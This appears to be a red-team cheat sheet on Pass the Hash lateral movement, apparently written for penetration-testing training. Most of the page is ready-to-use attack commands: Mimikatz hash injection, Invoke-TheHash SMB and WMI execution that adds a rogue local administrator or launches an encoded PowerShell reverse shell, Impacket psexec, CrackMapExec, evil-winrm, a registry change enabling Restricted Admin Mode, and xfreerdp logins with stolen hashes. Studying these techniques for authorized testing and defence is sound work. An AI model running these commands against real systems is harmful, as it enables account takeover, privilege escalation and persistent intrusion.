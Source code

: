 ```yaml
---
description: >-
  Lateral movement is process in Penetration Testing or Red Teaming when
  attacker moves through system, impersonate users and escalation privileges
  vertically or horizontally.
---
```


# Post-Exploitation

## Pass The Hash

A **Pass the Hash (PTH)** attack involves an attacker using a password hash in place of the actual password for authentication. This method allows the attacker to bypass the need to decrypt the hash to retrieve the password. **PTH** attacks take advantage of the fact that the authentication protocol accepts the hash directly, as it remains unchanged for all sessions until the password is altered.

***

### Windows PTH

#### Mimikatz

```powershell
mimikatz.exe privilege::debug "sekurlsa::pth /user:julio /rc4:64F12CDDAA88057E06A81B54E73B949B /domain:inlanefreight.htb /run:cmd.exe" exit
```

Explanation:

* <mark style="color:blue;">**`privilege::debug`**</mark> - equivalent of admin rights
* <mark style="color:blue;">**`/user:julio`**</mark> - user we want to impersonate
* <mark style="color:blue;">**`/rc4`**</mark> or <mark style="color:blue;">**`/NTLM`**</mark> - user's password hash. rc4 is algorithm
* <mark style="color:blue;">**`/domain`**</mark> - The domain to which the user being impersonated belongs. For a local user account, you can use the computer name, localhost, or simply a dot (.)
* <mark style="color:blue;">**`sekurlsa::pth`**</mark> - mimikatz popular module, which is used for extracting credentials from LSASS.
* <mark style="color:blue;">**`/run:cmd.exe`**</mark> - Instructions to mimikatz to run cmd after injecting hash

#### Invoke-TheHash

Besides mimikatz we could use [**Invoke-TheHash**](https://github.com/Kevin-Robertson/Invoke-TheHash) for **PTH** on Windows. This tool uses **PowerShell** functions for performing **Pass the Hash** attacks with **WMI** and **SMB**. Authentication is performed by passing an **NTLM** hash into the NTLMv2 authentication protocol.

```powershell
Import-Module .\Invoke-TheHash.psd1
```

* **SMB**

```powershell
Invoke-SMBExec -Target 13.13.13.13 -Domain somedomain.sus -Username carni7 -Hash 12379N1D2YV31U20931C031 -Command "net user mark Password123 /add && net localgroup administrators mark /add" -Verbose
```

* **WMI**

```powershell
Invoke-WMIExec -Target DC01 -Domain somedomain.sus -Username carni7 -Hash 12379N1D2YV31U20931C031 -Command "powershell -e JUSTLETSIMAGINETHISISBASE64ENCODEDPOWERSHELLREVERSESHELLCODE=="
```

***

### Linux PTH&#x20;

#### Impacket

Impacket has a lot of useful tools, but for this situtation we need only <mark style="color:blue;">**`PsExec`**</mark>. Besides that we could use also [**wmiexec**](https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py), [**atexec**](https://github.com/SecureAuthCorp/impacket/blob/master/examples/atexec.py), [**smbexec**](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbexec.py)**.**&#x20;

```bash
impacket-psexec administrator@13.13.13.13 -hashes :12379N1D2YV31U20931C031
```

#### CrackMapExec

```bash
crackmapexec smb 13.13.13.13 -u Administrator -d . -H 12379N1D2YV31U20931C031 -x whoami
```

#### Evil-winrm&#x20;

```bash
 evil-winrm -i 13.13.13.13 -u Administrator -H 12379N1D2YV31U20931C031
```

#### RDP

By default, Windows has disabled <mark style="color:green;">`Restricted Admin Mode`</mark>, and we need to fix that by adding new registry key to <mark style="color:green;">`DisableRestrictedAdmin`</mark>

```powershell
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

And then to use <mark style="color:blue;">**xfreerdp**</mark> for Pass The Hash

```powershell
xfreerdp /v:13.13.13.13 /u:carni7 /pth:12379N1D2YV31U20931C031
```
